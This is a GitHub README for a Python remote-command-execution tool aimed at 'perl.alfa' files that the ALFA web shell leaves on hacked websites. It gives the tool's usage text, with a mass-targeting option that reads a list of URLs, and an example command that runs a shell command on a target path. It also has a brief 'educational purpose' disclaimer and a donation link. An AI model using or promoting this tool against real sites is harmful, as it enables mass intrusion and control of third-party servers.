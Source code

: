 # Perl-Alfa-Rce

## About tools
This tools only working for filename `perl.alfa` but doesn't all it's work and this tools can mass targets also single target . I hope you all enjoy it :)

## Usage

```
usage: exploit.py [-h] [-u URL] [-m targets.txt] -c COMMAND

PERL ALFA RCE

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Single URL to scan
  -m targets.txt, --multiple targets.txt
                        File containing multiple URLs to scan
  -c COMMAND, --command COMMAND
                        Command to execute
```

## PoC

![image](https://github.com/0xWhoami35/Perl-Alfa-Rce/assets/107396843/94b051cf-40e4-48f9-93a4-718de1bccd6b)


## Example Usage:

`python3 exploit.py -u https://example.com/ALFA_DATA/alfacgiapi/perl.alfa -c ls`

## Disclaimer

Educational Purpose only !!

## Donation
https://www.buymeacoffee.com/ardian0917s
